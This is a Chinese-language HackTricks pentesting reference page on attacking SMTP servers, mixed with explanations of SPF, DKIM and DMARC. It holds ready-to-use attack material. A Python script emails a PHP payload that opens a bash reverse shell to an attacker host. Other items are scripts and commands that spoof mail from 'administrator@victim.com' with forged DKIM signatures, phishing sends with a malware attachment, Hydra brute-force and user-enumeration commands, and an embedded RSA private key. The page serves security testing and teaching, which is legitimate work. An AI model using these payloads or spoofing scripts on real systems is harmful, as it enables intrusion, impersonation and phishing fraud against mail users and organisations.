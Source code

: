# 25,465,587 - Pentesting SMTP/s

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**从黑客的角度看待您的网络应用、网络和云**

**发现并报告具有实际商业影响的关键可利用漏洞。** 使用我们 20 多个自定义工具来映射攻击面，查找允许您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **基本信息**

**简单邮件传输协议 (SMTP)** 是在 TCP/IP 套件中用于 **发送和接收电子邮件** 的协议。由于其在接收方排队消息的局限性，SMTP 通常与 **POP3 或 IMAP** 一起使用。这些附加协议使用户能够将消息存储在服务器邮箱中并定期下载。

在实践中，**电子邮件程序** 通常使用 **SMTP 发送电子邮件**，而使用 **POP3 或 IMAP 接收** 它们。在基于 Unix 的系统中，**sendmail** 是最常用于电子邮件的 SMTP 服务器。商业软件包 Sendmail 包含一个 POP3 服务器。此外，**Microsoft Exchange** 提供一个 SMTP 服务器，并提供包括 POP3 支持的选项。

**默认端口：** 25,465(ssl),587(ssl)
```
PORT   STATE SERVICE REASON  VERSION
25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
```
### EMAIL Headers

如果你有机会**让受害者给你发送一封邮件**（例如通过网页的联系表单），请这样做，因为**你可以通过查看邮件的头部了解受害者的内部拓扑**。

你也可以从SMTP服务器获取一封邮件，尝试**向该服务器发送一封邮件到一个不存在的地址**（因为服务器会向攻击者发送一封NDN邮件）。但是，请确保你从一个允许的地址发送邮件（检查SPF策略），并且你可以接收NDN消息。

你还应该尝试**发送不同的内容，因为你可以在头部找到更有趣的信息**，例如：`X-Virus-Scanned: by av.domain.com`\
你应该发送EICAR测试文件。\
检测**AV**可能允许你利用**已知漏洞**。

## Basic actions

### **Banner Grabbing/Basic connection**

**SMTP:**
```bash
nc -vn <IP> 25
```
**SMTPS**:
```bash
openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS without starttls command
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
```
### 查找组织的 MX 服务器
```bash
dig +short mx google.com
```
### 枚举
```bash
nmap -p25 --script smtp-commands 10.10.10.10
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### NTLM Auth - 信息泄露

如果服务器支持 NTLM 认证（Windows），您可以获取敏感信息（版本）。更多信息 [**这里**](https://medium.com/@m8r0wn/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)。
```bash
root@kali: telnet example.com 587
220 example.com SMTP Server Banner
>> HELO
250 example.com Hello [x.x.x.x]
>> AUTH NTLM 334
NTLM supported
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
334 TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```
或**自动化**此操作，使用**nmap**插件`smtp-ntlm-info.nse`

### 内部服务器名称 - 信息泄露

一些SMTP服务器在发出“MAIL FROM”命令时，如果没有完整地址，会自动补全发件人的地址，从而泄露其内部名称：
```
220 somedomain.com Microsoft ESMTP MAIL Service, Version: Y.Y.Y.Y ready at  Wed, 15 Sep 2021 12:13:28 +0200
EHLO all
250-somedomain.com Hello [x.x.x.x]
250-TURN
250-SIZE 52428800
250-ETRN
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8bitmime
250-BINARYMIME
250-CHUNKING
250-VRFY
250 OK
MAIL FROM: me
250 2.1.0 me@PRODSERV01.somedomain.com....Sender OK
```
### Sniffing

检查是否从发送到端口 25 的数据包中嗅探到一些密码

### [Auth bruteforce](../../generic-methodologies-and-resources/brute-force.md#smtp)

## 用户名暴力破解枚举

**认证并不总是需要**

### RCPT TO
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
MAIL FROM:example@domain.com
250 2.1.0 example@domain.com... Sender ok
RCPT TO:test
550 5.1.1 test... User unknown
RCPT TO:admin
550 5.1.1 admin... User unknown
RCPT TO:ed
250 2.1.5 ed... Recipient ok
```
### VRFY
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
VRFY root
250 Super-User root@myhost
VRFY blah
550 blah... User unknown
```
### EXPN
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
EXPN test
550 5.1.1 test... User unknown
EXPN root
250 2.1.5 ed.williams@myhost
EXPN sshd
250 2.1.5 sshd privsep sshd@myhost
```
### 自动化工具
```
Metasploit: auxiliary/scanner/smtp/smtp_enum
smtp-user-enum: smtp-user-enum -M <MODE> -u <USER> -t <IP>
Nmap: nmap --script smtp-enum-users <IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**从黑客的角度看待您的网络应用、网络和云**

**查找并报告具有实际业务影响的关键可利用漏洞。** 使用我们20多个自定义工具来映射攻击面，查找允许您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## DSN报告

**投递状态通知报告**：如果您向一个组织发送电子邮件到一个**无效地址**，该组织将通过**邮件回复您**来通知该地址无效。**返回邮件的头部**将**包含**可能的**敏感信息**（如与报告交互的邮件服务的IP地址或防病毒软件信息）。

## [命令](smtp-commands.md)

### 从linux控制台发送电子邮件
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a /tmp/malware.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```
### 使用 Python 发送电子邮件

<details>

<summary>这里是 Python 代码</summary>
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = ""
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
print("[-]Connection Error")
exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
</details>

## SMTP Smuggling

SMTP Smuggling 漏洞允许绕过所有 SMTP 保护（有关保护的更多信息，请查看下一部分）。有关 SMTP Smuggling 的更多信息，请查看：

{% content-ref url="smtp-smuggling.md" %}
[smtp-smuggling.md](smtp-smuggling.md)
{% endcontent-ref %}

## 邮件伪造对策

由于伪造 SMTP 消息的容易性，组织通过采用 **SPF**、**DKIM** 和 **DMARC** 来防止未经授权的电子邮件代表他们发送。

有关这些对策的 **完整指南** 可在 [https://seanthegeek.net/459/demystifying-dmarc/](https://seanthegeek.net/459/demystifying-dmarc/) 获取。

### SPF

{% hint style="danger" %}
SPF [在 2014 年被“弃用”](https://aws.amazon.com/premiumsupport/knowledge-center/route53-spf-record/)。这意味着您应该在 `domain.com` 中创建 **TXT 记录**，而不是在 `_spf.domain.com` 中，使用 **相同的语法**。\
此外，为了重用以前的 SPF 记录，通常会发现类似于 `"v=spf1 include:_spf.google.com ~all"` 的内容。
{% endhint %}

**发送方策略框架**（SPF）是一种机制，使邮件传输代理（MTA）能够通过查询组织定义的授权邮件服务器列表来验证发送电子邮件的主机是否被授权。该列表指定了 **被授权代表域名发送电子邮件的 IP 地址/范围、域名和其他实体**，并在 SPF 记录中包含各种“**机制**”。

#### 机制

来自 [维基百科](https://en.wikipedia.org/wiki/Sender\_Policy\_Framework)：

| 机制      | 描述                                                                                                                                                                                                                                                                                                                         |
| --------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ALL       | 始终匹配；用于默认结果，如 `-all`，适用于未被先前机制匹配的所有 IP。                                                                                                                                                                                                                                  |
| A         | 如果域名有一个地址记录（A 或 AAAA），且可以解析为发送者的地址，则匹配。                                                                                                                                                                                                                   |
| IP4       | 如果发送者在给定的 IPv4 地址范围内，则匹配。                                                                                                                                                                                                                                                                              |
| IP6       | 如果发送者在给定的 IPv6 地址范围内，则匹配。                                                                                                                                                                                                                                                                              |
| MX        | 如果域名有一个 MX 记录解析为发送者的地址，则匹配（即邮件来自该域的一个入站邮件服务器）。                                                                                                                                                                          |
| PTR       | 如果客户端地址的域名（PTR 记录）在给定域中，并且该域名解析为客户端地址（前向确认的反向 DNS），则匹配。此机制不推荐使用，尽可能避免。                                                                                     |
| EXISTS    | 如果给定的域名解析为任何地址，则匹配（无论解析为哪个地址）。这很少使用。与 SPF 宏语言一起，它提供了更复杂的匹配，如 DNSBL 查询。                                                                                                                           |
| INCLUDE   | 引用另一个域的策略。如果该域的策略通过，则此机制通过。然而，如果包含的策略失败，则继续处理。要完全委托给另一个域的策略，必须使用重定向扩展。                                                                                     |
| REDIRECT  | <p>重定向是指向另一个域名的指针，该域名托管 SPF 策略，它允许多个域共享相同的 SPF 策略。当处理大量共享相同电子邮件基础设施的域时，它非常有用。</p><p>将使用重定向机制中指示的域的 SPF 策略。</p> |

还可以识别 **限定符**，指示 **如果匹配了某个机制应该采取什么措施**。默认情况下，使用 **限定符 "+"**（因此如果匹配了任何机制，则表示允许）。\
您通常会在 **每个 SPF 策略的末尾** 注意到类似于：**\~all** 或 **-all** 的内容。这用于指示 **如果发送者不匹配任何 SPF 策略，则应将电子邮件标记为不可信（\~）或拒绝（-）该电子邮件。**

#### 限定符

策略中的每个机制可以由四个限定符之一前缀，以定义预期结果：

* **`+`**：对应于通过结果。默认情况下，机制假定此限定符，使得 `+mx` 等同于 `mx`。
* **`?`**：表示中立结果，类似于无（没有特定策略）。
* **`~`**：表示软失败，作为中立和失败之间的中间状态。符合此结果的电子邮件通常被接受，但会相应标记。
* **`-`**：表示失败，建议电子邮件应被直接拒绝。

在接下来的示例中，**google.com 的 SPF 策略** 被说明。请注意在第一个 SPF 策略中包含来自不同域的 SPF 策略：
```shell-session
dig txt google.com | grep spf
google.com.             235     IN      TXT     "v=spf1 include:_spf.google.com ~all"

dig txt _spf.google.com | grep spf
; <<>> DiG 9.11.3-1ubuntu1.7-Ubuntu <<>> txt _spf.google.com
;_spf.google.com.               IN      TXT
_spf.google.com.        235     IN      TXT     "v=spf1 include:_netblocks.google.com include:_netblocks2.google.com include:_netblocks3.google.com ~all"

dig txt _netblocks.google.com | grep spf
_netblocks.google.com.  1606    IN      TXT     "v=spf1 ip4:35.190.247.0/24 ip4:64.233.160.0/19 ip4:66.102.0.0/20 ip4:66.249.80.0/20 ip4:72.14.192.0/18 ip4:74.125.0.0/16 ip4:108.177.8.0/21 ip4:173.194.0.0/16 ip4:209.85.128.0/17 ip4:216.58.192.0/19 ip4:216.239.32.0/19 ~all"

dig txt _netblocks2.google.com | grep spf
_netblocks2.google.com. 1908    IN      TXT     "v=spf1 ip6:2001:4860:4000::/36 ip6:2404:6800:4000::/36 ip6:2607:f8b0:4000::/36 ip6:2800:3f0:4000::/36 ip6:2a00:1450:4000::/36 ip6:2c0f:fb50:4000::/36 ~all"

dig txt _netblocks3.google.com | grep spf
_netblocks3.google.com. 1903    IN      TXT     "v=spf1 ip4:172.217.0.0/19 ip4:172.217.32.0/20 ip4:172.217.128.0/19 ip4:172.217.160.0/20 ip4:172.217.192.0/19 ip4:172.253.56.0/21 ip4:172.253.112.0/20 ip4:108.177.96.0/19 ip4:35.191.0.0/16 ip4:130.211.0.0/22 ~all"
```
传统上，可以伪造任何没有正确/任何 SPF 记录的域名。**如今**，如果 **电子邮件** 来自 **没有有效 SPF 记录的域名**，则可能会 **自动被拒绝/标记为不可信**。

要检查域的 SPF，您可以使用在线工具，例如：[https://www.kitterman.com/spf/validate.html](https://www.kitterman.com/spf/validate.html)

### DKIM (DomainKeys Identified Mail)

DKIM 用于签署外发电子邮件，允许外部邮件传输代理 (MTA) 通过从 DNS 检索域的公钥来验证它们。此公钥位于域的 TXT 记录中。要访问此密钥，必须知道选择器和域名。

例如，要请求密钥，域名和选择器是必需的。这些可以在邮件头 `DKIM-Signature` 中找到，例如 `d=gmail.com;s=20120113`。

获取此信息的命令可能如下所示：
```bash
dig 20120113._domainkey.gmail.com TXT | grep p=
# This command would return something like:
20120113._domainkey.gmail.com. 280 IN   TXT    "k=rsa\; p=MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1Kd87/UeJjenpabgbFwh+eBCsSTrqmwIYYvywlbhbqoo2DymndFkbjOVIPIldNs/m40KF+yzMn1skyoxcTUGCQs8g3
```
### DMARC (基于域的消息认证、报告和一致性)

DMARC 通过建立在 SPF 和 DKIM 协议之上来增强电子邮件安全性。它概述了指导邮件服务器处理来自特定域的电子邮件的政策，包括如何处理身份验证失败以及将关于电子邮件处理操作的报告发送到哪里。

**要获取 DMARC 记录，您需要查询子域 \_dmarc**
```bash
# Reject
dig _dmarc.facebook.com txt | grep DMARC
_dmarc.facebook.com.	3600	IN	TXT	"v=DMARC1; p=reject; rua=mailto:a@dmarc.facebookmail.com; ruf=mailto:fb-dmarc@datafeeds.phishlabs.com; pct=100"

# Quarantine
dig _dmarc.google.com txt | grep DMARC
_dmarc.google.com.	300	IN	TXT	"v=DMARC1; p=quarantine; rua=mailto:mailauth-reports@google.com"

# None
dig _dmarc.bing.com txt | grep DMARC
_dmarc.bing.com.	3600	IN	TXT	"v=DMARC1; p=none; pct=100; rua=mailto:BingEmailDMARC@microsoft.com;"
```
#### DMARC 标签

| 标签名称 | 目的                                         | 示例                             |
| -------- | -------------------------------------------- | -------------------------------- |
| v        | 协议版本                                    | v=DMARC1                         |
| pct      | 受过滤消息的百分比                          | pct=20                           |
| ruf      | 取证报告的报告 URI                          | ruf=mailto:authfail@example.com  |
| rua      | 汇总报告的报告 URI                          | rua=mailto:aggrep@example.com    |
| p        | 组织域的策略                                | p=quarantine                     |
| sp       | OD 的子域策略                               | sp=reject                        |
| adkim    | DKIM 的对齐模式                             | adkim=s                          |
| aspf     | SPF 的对齐模式                              | aspf=r                           |

### **子域怎么办？**

**来自** [**这里**](https://serverfault.com/questions/322949/do-spf-records-for-primary-domain-apply-to-subdomains)**.**\
您需要为每个希望发送邮件的子域拥有单独的 SPF 记录。\
以下内容最初发布在 openspf.org 上，该网站曾是此类信息的极好资源。

> 恶魔问题：子域怎么办？
>
> 如果我从 pielovers.demon.co.uk 收到邮件，而 pielovers 没有 SPF 数据，我应该回退一级并测试 demon.co.uk 的 SPF 吗？不应该。Demon 的每个子域都是不同的客户，每个客户可能有自己的政策。Demon 的政策默认适用于所有客户是没有意义的；如果 Demon 想这样做，可以为每个子域设置 SPF 记录。
>
> 因此，给 SPF 发布者的建议是：您应该为每个具有 A 或 MX 记录的子域或主机名添加 SPF 记录。
>
> 具有通配符 A 或 MX 记录的网站也应该具有通配符 SPF 记录，形式为：\* IN TXT "v=spf1 -all"

这很有道理——子域可能位于不同的地理位置，并且具有非常不同的 SPF 定义。

### **开放转发**

发送电子邮件时，确保它们不会被标记为垃圾邮件至关重要。这通常通过使用**收件人信任的中继服务器**来实现。然而，一个常见的挑战是，管理员可能并不完全了解哪些**IP 范围是安全的**。这种缺乏理解可能导致在设置 SMTP 服务器时出现错误，这是安全评估中经常识别的风险。

一些管理员使用的解决方法是为了避免电子邮件投递问题，特别是与潜在或正在进行的客户的通信，**允许来自任何 IP 地址的连接**。这是通过配置 SMTP 服务器的 `mynetworks` 参数以接受所有 IP 地址来实现的，如下所示：
```bash
mynetworks = 0.0.0.0/0
```
为了检查邮件服务器是否是开放转发（这意味着它可以从任何外部来源转发电子邮件），通常使用 `nmap` 工具。它包括一个专门用于测试的脚本。使用 `nmap` 在端口 25 上对服务器（例如，IP 为 10.10.10.10）进行详细扫描的命令是：
```bash
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### **工具**

* [**https://github.com/serain/mailspoof**](https://github.com/serain/mailspoof) **检查 SPF 和 DMARC 配置错误**
* [**https://pypi.org/project/checkdmarc/**](https://pypi.org/project/checkdmarc/) **自动获取 SPF 和 DMARC 配置**

### 发送伪造邮件

* [**https://www.mailsploit.com/index**](https://www.mailsploit.com/index)
* [**http://www.anonymailer.net/**](http://www.anonymailer.net)
* [**https://emkei.cz/**](https://emkei.cz/)

**或者你可以使用一个工具：**

* [**https://github.com/magichk/magicspoofing**](https://github.com/magichk/magicspoofing)
```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```
{% hint style="warning" %}
如果您在使用 dkim python lib 解析密钥时遇到任何 **错误**，请随意使用以下内容。\
**注意**：这只是一个临时修复，用于在某些情况下快速检查，其中由于某种原因 openssl 私钥 **无法被 dkim 解析**。
```
-----BEGIN RSA PRIVATE KEY-----
MIICXgIBAAKBgQDdkohAIWT6mXiHpfAHF8bv2vHTDboN2dl5pZKG5ZSHCYC5Z1bt
spr6chlrPUX71hfSkk8WxnJ1iC9Moa9sRzdjBrxPMjRDgP8p8AFdpugP5rJJXExO
pkZcdNPvCXGYNYD86Gpous6ubn6KhUWwDD1bw2UFu53nW/AK/EE4/jeraQIDAQAB
AoGAe31lrsht7TWH9aJISsu3torCaKyn23xlNuVO6xwdUb28Hpk327bFpXveKuS1
koxaLqQYrEriFBtYsU8T5Dc06FQAVLpUBOn+9PcKlxPBCLvUF+/KbfHF0q1QbeZR
fgr+E+fPxwVPxxk3i1AwCP4Cp1+bz2s58wZXlDBkWZ2YJwECQQD/f4bO2lnJz9Mq
1xsL3PqHlzIKh+W+yiGmQAELbgOdX4uCxMxjs5lwGSACMH2nUwXx+05RB8EM2m+j
ZBTeqxDxAkEA3gHyUtVenuTGClgYpiwefaTbGfYadh0z2KmiVcRqWzz3hDUEWxhc
GNtFT8wzLcmRHB4SQYUaS0Df9mpvwvdB+QJBALGv9Qci39L0j/15P7wOYMWvpwOf
422+kYxXcuKKDkWCTzoQt7yXCRzmvFYJdznJCZdymNLNu7q+p2lQjxsUiWECQQCI
Ms2FP91ywYs1oWJN39c84byBKtiFCdla3Ib48y0EmFyJQTVQ5ZrqrOrSz8W+G2Do
zRIKHCxLapt7w0SZabORAkEAxvm5pd2MNVqrqMJHbukHY1yBqwm5zVIYr75eiIDP
K9B7U1w0CJFUk6+4Qutr2ROqKtNOff9KuNRLAOiAzH3ZbQ==
-----END RSA PRIVATE KEY-----
```
{% endhint %}

**或者你可以手动执行：**

{% tabs %}
{% tab title="PHP" %}
<pre class="language-php"><code class="lang-php"><strong># 这将发送一条未签名的消息
</strong><strong>mail("your_email@gmail.com", "测试主题！", "嘿！这是一个测试", "来自：administrator@victim.com");
</strong></code></pre>
{% endtab %}

{% tab title="Python" %}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
<body>
<h3>This is a test, not a scam</h3>
<br />
</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
s = smtplib.SMTP(smtp)
s.sendmail(sender, [destination], msg_data)
```
{% endtab %}
{% endtabs %}

### **更多信息**

**在** [**https://seanthegeek.net/459/demystifying-dmarc/**](https://seanthegeek.net/459/demystifying-dmarc/) **中找到有关这些保护的更多信息**

### **其他钓鱼指标**

* 域名的年龄
* 指向IP地址的链接
* 链接操控技术
* 可疑（不常见）附件
* 损坏的电子邮件内容
* 使用的值与邮件头不同
* 存在有效且受信任的SSL证书
* 将页面提交到网络内容过滤网站

## 通过SMTP进行外泄

**如果您可以通过SMTP发送数据** [**请阅读此文**](../../generic-methodologies-and-resources/exfiltration.md#smtp)**。**

## 配置文件

### Postfix

通常，如果已安装，`/etc/postfix/master.cf` 中包含 **在用户收到新邮件时执行的脚本**。例如，`flags=Rq user=mark argv=/etc/postfix/filtering-f ${sender} -- ${recipient}` 这一行意味着如果用户mark收到新邮件，将执行`/etc/postfix/filtering`。

其他配置文件：
```
sendmail.cf
submit.cf
```
## 参考文献

* [https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/](https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/)
* [https://www.reddit.com/r/HowToHack/comments/101it4u/what\_could\_hacker\_do\_with\_misconfigured\_smtp/](https://www.reddit.com/r/HowToHack/comments/101it4u/what\_could\_hacker\_do\_with\_misconfigured\_smtp/)

## HackTricks 自动命令
```
Protocol_Name: SMTP    #Protocol Abbreviation if there is one.
Port_Number:  25,465,587     #Comma separated if there is more than one.
Protocol_Description: Simple Mail Transfer Protocol          #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for SMTP
Note: |
SMTP (Simple Mail Transfer Protocol) is a TCP/IP protocol used in sending and receiving e-mail. However, since it is limited in its ability to queue messages at the receiving end, it is usually used with one of two other protocols, POP3 or IMAP, that let the user save messages in a server mailbox and download them periodically from the server.

https://book.hacktricks.xyz/pentesting/pentesting-smtp

Entry_2:
Name: Banner Grab
Description: Grab SMTP Banner
Command: nc -vn {IP} 25

Entry_3:
Name: SMTP Vuln Scan
Description: SMTP Vuln Scan With Nmap
Command: nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 {IP}

Entry_4:
Name: SMTP User Enum
Description: Enumerate uses with smtp-user-enum
Command: smtp-user-enum -M VRFY -U {Big_Userlist} -t {IP}

Entry_5:
Name: SMTPS Connect
Description: Attempt to connect to SMTPS two different ways
Command: openssl s_client -crlf -connect {IP}:465 &&&& openssl s_client -starttls smtp -crlf -connect {IP}:587

Entry_6:
Name: Find MX Servers
Description: Find MX servers of an organization
Command: dig +short mx {Domain_Name}

Entry_7:
Name: Hydra Brute Force
Description: Need Nothing
Command: hydra -P {Big_Passwordlist} {IP} smtp -V

Entry_8:
Name: consolesless mfs enumeration
Description: SMTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_version; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_ntlm_domain; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_relay; set RHOSTS {IP}; set RPORT 25; run; exit'

```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**从黑客的角度看待您的网络应用、网络和云**

**发现并报告具有实际商业影响的关键可利用漏洞。** 使用我们20多个自定义工具来映射攻击面，找到让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR来分享黑客技巧。

</details>
{% endhint %}
